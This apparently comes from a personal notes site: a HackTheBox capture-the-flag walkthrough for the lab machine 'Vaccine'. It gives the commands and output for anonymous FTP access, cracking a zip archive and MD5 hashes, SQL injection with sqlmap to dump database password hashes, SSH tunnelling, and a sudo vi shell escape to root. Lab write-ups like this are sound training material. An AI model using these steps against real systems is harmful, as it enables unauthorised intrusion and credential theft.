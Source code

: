 ```yaml
---
title: Vaccine - A HackThebBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Vaccine - A HackTheBox machine


```bash
nmap -sC -sV $ip -Pn
```
Two open ports: 21 and 80


Also, from nmap analysys, ftp service at 21 allows us to use anonymous signin with empty password:

```bash
ftp $ip

# enter user "anonymous" and hit enter when prompted for password
```

```ftp
dir
# listed appears file backup.zip

get *
```

Try to open zip file, but it's password protected, so we crak it with [johntheripper](john-the-ripper.md):


```bash
zip2john nameoffile.zip > zip.hashes
cat zip.hashes
john zip.hashes
# Proceeding with wordlist:/usr/share/john/password.lst
# 741852963        (backup.zip)    


#Unzip file:
unzip backup.zip

# Echo index file
cat index.php
```

Before the html code there is a piece of php starting the session. Username and password are hard encoded there:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

In crackstation.net, we obtain that the hash "2cb42f8734ea607eefed3b70af13bbd3" was md5 encrypted and that actual password is "qwerty789"

With this, open browser and enter username and password. You will be redirected to: htpp://$ip/dashboard.php

Search box triggers a error message on frontend when introducing simple quotation mark as imput "'":

```
 ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```

This tells us about a sql injection vulnerability.


```bash
# Ask for backend DBMS
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch      

#---------
# [11:03:27] [INFO] the back-end DBMS is PostgreSQL
#web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
#web application technology: Apache 2.4.41
#back-end DBMS: PostgreSQL



# Ask for databases
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --dbs

# ------
# [11:06:12] [INFO] fetching database (schema) names available databases [3]:
# [*] information_schema
# [*] pg_catalog
# [*] public



# Ask for tables in db pg_catalog
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch -D pg_catalog --tables

# Response contains 62 tables. 


# Ask for users
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --users 

# -----
# [11:10:16] [INFO] resumed: 'postgres'
# database management system users [1]:
# [*] postgres


sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch -D pg_catalog -T pg_user -C passwd,usebypassrls,useconfig,usecreatedb,usename,userepl,usesuper,usesysid,valuntil --dump



# Ask for passwords
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --passwords --dump

# -----
# database management system users password hashes:
# [*] postgres [1]:
#    password hash: md52d58e0637ec1e94cdfba3d1c26b67d01

```

First 3 characters are a tip about the hash. Using https://md5.gromweb.com/?md5=2d58e0637ec1e94cdfba3d1c26b67d01 we obtain: The MD5 hash: 2d58e0637ec1e94cdfba3d1c26b67d01 was succesfully reversed into the string: P@s5w0rd!postgres

Now, as we couldn't spot [port 5432 (postgres)](5432-postgresql.md) open, we will use port-tunneling with ssh.

```bash
ssh UserNameInTheAttackedMachine@IPOfTheAttackedMachine -L 1234:localhost:5432 
# We will listen for incoming connections on our local port 1234. When a client connects to our local port, the SSH client will forward the connection to the remote server on port 22. This allows the local client to access services on the remote server as if they were running on the local machine.
# We are forwarding traffic from any given local port, for instance 1234, to the port on which PostgreSQL is listening, namely 5432, on the remote server. We therefore specify port 1234 to the left of localhost, and 5432 to the right, indicating the target port.

ssh postgres@10.129.95.174 -L 1234:localhost:5432

```

After this, we can "cat" the user.txt file. 

To escalate provileges, first we can use some commands for basic reconnaissance:

```bash
whoami
id
sudo -l
```

Last one provides us with interesting output:

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can abuse [suid binaries technique](suid-binaries) to gain access to root user:

```bash
 sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:set shell=/bin/sh
:shell
```

Once there, print out root flag:

```bash
cat /root/root.txt
```




